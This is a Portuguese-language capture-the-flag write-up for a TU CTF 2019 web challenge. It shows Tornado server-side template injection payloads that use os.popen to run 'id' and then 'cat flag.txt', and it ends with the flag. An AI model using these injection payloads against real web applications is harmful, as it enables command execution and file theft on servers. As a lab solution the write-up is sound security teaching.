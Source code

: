 ```yaml
---
layout: post
title:  And Now, For Something Completely Different - TU CTF 2019
image: ''
date:   2020-06-04
tags:
- ctf
- writeup
- web
description: 'And Now, For Something Completely Different - Writeup'
categories:
- WRITEUP 2019
- CTF
---
```

**Category: Web**

### Description:
```
We all know Black Friday is the time for shopping. Can you find us a flag on this online store?

chall.tuctf.com:30007
```
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow0.png"/>

### Solve:
Acessando o link:
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow1.png" />
Analisando o código fonte encontramos um diretório:
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow2.png" />
E, acessando o "/welcome/test", temos:
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow3.png" />
Depois de testar alguns payloads, cheguei ao Server-Side Template Injection (SSTI) com o payload :
```python
{ {7*7} }
```
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow4.png" />
E descobri que estava rodando Tornado no servidor, pois em um dos payloads que eu testei me foi retornado um erro com o path do Tornado e assim procurei outros payloads para o Tornado.Usei:
```python
{ % import os % } { { os.popen("id").read() }}
```
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow5.png" />
E assim, obti a flag com o payload:
```python
{ % import os % } { {os.popen( "cat flag.txt" ).read()}}
```
<script src="https://gist.github.com/73735/80753105720b2d26d55bf23d68f2c426.js"></script>
<img src="/assets/img/writeups/2019/TU CTF/Web/And-Now-For-Something-Completely-Different/andnow6.png" />

### Flag:
```TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}```

